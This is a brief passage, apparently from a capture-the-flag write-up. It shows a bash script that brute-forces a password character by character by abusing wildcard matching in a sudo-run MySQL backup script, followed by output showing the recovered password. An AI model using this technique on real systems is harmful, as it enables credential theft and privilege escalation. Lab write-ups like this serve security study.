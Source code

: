 ```bash

while :; do
    for char in $(echo "$valid_chars" | sed 's/./& /g'); do
        if [[ "$char" =~ [*\\%] ]]; then
            continue
        fi
        printf "\rTrying: %s%s" "$leaked_password" "$char"
        result=$(echo -n "$leaked_password$char*" | sudo /opt/scripts/mysql-backup.sh 2>&1)
        if [[ $? -eq 124 || "$result" == *"Password confirmed"* ]]; then
            leaked_password+="$char"
            break
        fi
    done
    if [[ "$leaked_password" == "$previous_password" ]]; then
        # If the password hasn't changed, exit the loop
        echo -e "\nPassword fully leaked: $leaked_password"
        exit 0
    fi
    previous_password="$leaked_password"
    printf "\rLeaked Password: %s" "$leaked_password"
    sleep 0.1  # Small delay to avoid spamming
done
```
**Script in action**
```
joshua@codify:~$ bash root.sh
Leaked Password: kljh12k3jhaskjh12kjh3 
```